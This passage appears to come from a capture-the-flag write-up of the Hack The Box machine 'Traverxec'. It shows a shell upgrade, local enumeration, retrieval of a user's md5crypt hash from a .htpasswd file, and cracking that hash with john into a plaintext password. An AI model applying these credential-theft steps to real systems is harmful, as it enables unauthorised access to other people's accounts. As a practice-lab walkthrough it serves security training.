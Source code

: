 ```aaa
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$
```

---

## Local enumeration

Once inside we can start taking a look around. The only user on the box appears to be David:

```aaa
www-data@traverxec:/$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root  root  4096 Oct 25 14:32 .
drwxr-xr-x 18 root  root  4096 Oct 25 14:17 ..
drwx--x--x  6 david david 4096 Dec  1 22:32 david
```

Inside nostromo's config directory is a .htpasswd file containing an md5crypt password hash ($1$ = md5crypt):

```aaa
www-data@traverxec:/var/nostromo/conf$ ls -la
ls -la
total 20
drwxr-xr-x 2 root daemon 4096 Oct 27 16:12 .
drwxr-xr-x 6 root root   4096 Oct 25 14:43 ..
-rw-r--r-- 1 root bin      41 Oct 25 15:20 .htpasswd
-rw-r--r-- 1 root bin    2928 Oct 25 14:26 mimes
-rw-r--r-- 1 root bin     498 Oct 25 15:20 nhttpd.conf
www-data@traverxec:/var/nostromo/conf$ cat .htpasswd
cat .htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

The password is easily cracked with john:

```aaa
baud@kali:~/HTB/traverxec$ /usr/sbin/john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:01:40 DONE (2020-02-29 19:37) 0.009972g/s 105485p/s 105485c/s 105485C/s Noyoudo..Nowhere
Use the "--show" option to display all of the cracked passwords reliably
Session completed
baud@kali:~/HTB/traverxec$ /usr/sbin/john --show hash
david:Nowonly4me

1 password hash cracked, 0 left
```
